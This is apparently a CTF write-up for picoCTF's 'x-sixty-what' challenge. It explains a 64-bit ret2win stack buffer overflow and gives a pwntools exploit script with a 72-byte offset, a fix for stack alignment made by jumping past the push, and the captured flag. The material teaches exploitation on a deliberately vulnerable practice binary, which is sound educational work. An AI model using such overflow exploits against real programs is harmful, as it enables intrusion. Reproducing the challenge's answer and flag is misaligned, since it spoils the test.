

# x-sixty-what
## Overview
Points: 200  
Category: Binary Exploitation

## Description
Overflow x64 code
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](./vuln). [Download source](./vuln.c).
## Hints

1. Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.
2. Jump to the second instruction (the one after the first `push`) in the flag function, if you're getting mysterious segmentation faults. 

## Solution

We first do the usual checksec on the binary to check the security, the result is `Partial RELRO` and `NX Enabled`. After a quick review on the source code, I can determine that this is just a ret2win in a 64-bits binary.

Now What's the difference between this and `buffer overflow 1` you might ask, well the real difference lies in the stack and how you find the offset. Unlike 32-bits when you find the offset on 64-bits, for example in this case 72 bytes, it hasn't overwrite the `Instruction Pointer`.

So in this binary we just need to simply fill the stack and then put the address we want to go to in a p64() format.

The payload would look like this for now:
```python
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

p = process(binary)

payload = b'a'*72
payload+= p64(0x000000000040123a)

p.sendline(payload)

p.interactive()
```

Wait a second...

<p align=center>
    
</p>

What? we can't jump to the flag using its address???

```as
0x000000000040123a <+4>:	push   rbp
0x000000000040123b <+5>:	mov    rbp,rsp

```

I think this binary was a bit broken, but the 2nd hint told us to use the second instruction instead of using the normal `push rbp` which usually call the function. In this we can change the payload using the 2nd instruction after push.

```python
payload = b'a'*72
payload+= p64(0x000000000040123b)
```

It works locally so we just need to connect it with the nc to the server and we got the flag.

## Flag

```picoCTF{b1663r_15_b3773r_8225d60a}```                                             
